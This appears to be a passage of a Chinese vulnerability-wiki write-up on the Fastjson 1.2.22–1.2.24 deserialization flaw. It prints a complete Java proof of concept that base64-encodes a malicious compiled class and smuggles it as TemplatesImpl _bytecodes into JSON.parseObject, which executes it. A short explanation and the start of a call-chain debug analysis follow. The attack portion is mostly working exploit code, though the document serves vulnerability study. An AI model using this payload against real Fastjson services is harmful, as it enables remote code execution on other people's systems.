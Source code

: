     public class vulApp1 {

        public static String readClass(String cls){
            ByteArrayOutputStream bos = new ByteArrayOutputStream();
            try {
                IOUtils.copy(new FileInputStream(new File(cls)), bos);
            } catch (IOException e) {
                e.printStackTrace();
            }

            String result = Base64.encodeBase64String(bos.toByteArray());

            return result;
        }

        public static void bad_method() {
            ParserConfig config = new ParserConfig();
            final String fileSeparator = System.getProperty("file.separator");
            String evil_path = "D:\\Java-App\\fastjson-1.2.22\\target\\classes\\ka1n4t\\poc\\evilClass1.class";
            String evil_code = readClass(evil_path);

            final String NASTY_CLASS = "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";

            String text1 = "{\"@type\":\"" + NASTY_CLASS +
                    "\",\"_bytecodes\":[\""+evil_code+"\"]," +
                    "'_name':'a.b'," +
                    "'_tfactory':{ }," +
                    "\"_outputProperties\":{ }}\n";
            System.out.println(text1);
            Object obj = JSON.parseObject(text1, Object.class, config, Feature.SupportNonPublicField);
        }

        public static void main(String args[]) {
            bad_method();
        }

    }

核心部分：

    String text1 = "{\"@type\":\"" + NASTY_CLASS +
                    "\",\"_bytecodes\":[\""+evil_code+"\"]," +
                    "'_name':'a.b'," +
                    "'_tfactory':{ }," +
                    "\"_outputProperties\":{ }}\n";

    Object obj = JSON.parseObject(text1, Object.class, config, Feature.SupportNonPublicField);

\_bytecodes是经过base64编码的evilClass1的字节码文件，NASTY\_CLASS是TemplatesImpl类。总结一下这个payload，利用JSON.parseObject反序列化TemplatesImpl类，其中\_bytecodes属性是经过base64编码的恶意类字节码文件。

#### 调试分析

下面来分析一下反序列化TemplatesImpl的调用链，首先经过java的反射机制，到达TemplatesImpl类，调用其getOutputProperties()方法：

![](/Users/aresx/Documents/VulWiki/.resource/Fastjson1.2.22-1.2.24反序列化漏洞/media/rId30.png)
